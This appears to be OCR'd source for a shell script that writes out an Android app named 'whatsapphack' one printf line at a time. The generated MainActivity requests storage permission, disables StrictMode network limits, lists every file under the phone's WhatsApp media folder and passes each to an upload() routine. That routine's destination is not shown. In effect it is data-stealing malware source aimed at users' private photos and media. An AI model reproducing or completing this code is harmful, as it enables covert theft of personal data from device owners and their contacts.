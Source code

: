 printf "@Override\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "protected void onCreate(Bundle savedInstanceState)\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "{\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "    super.onCreate(savedInstanceState);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "    setContentView(R.layout.activity_main);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "    StrictMode.ThreadPolicy policy=new StrictMode.ThreadPolicy.Builder().permitAll().build();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "    StrictMode.setThreadPolicy(policy);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "        try {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "checkperm();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        } catch (Exception e) {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        }\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "}\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java



printf "public void checkperm() {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "       if(ContextCompat.checkSelfPermission(getBaseContext(), \"android.permission.WRITE_EXTERNAL_STORAGE\") == PackageManager.PERMISSION_GRANTED) {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "File dir = new File(\"/storage/emulated/0/WhatsApp/Media/\");\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java


printf "		List<File> files = (List<File>) FileUtils.listFiles(dir,\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "TrueFileFilter.INSTANCE, TrueFileFilter.INSTANCE);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "		for (File file : files) {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java


printf "try {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            String pathW = file.getCanonicalPath();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "                        upload(pathW);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "} catch (Exception e) {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            }\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "		}\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java


printf "       } else {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            final int REQUEST_CODE_ASK_PERMISSIONS = 123;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            ActivityCompat.requestPermissions(MainActivity.this, new String[]{\"android.permission.WRITE_EXTERNAL_STORAGE\"}, REQUEST_CODE_ASK_PERMISSIONS);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "          checkperm();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        }\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
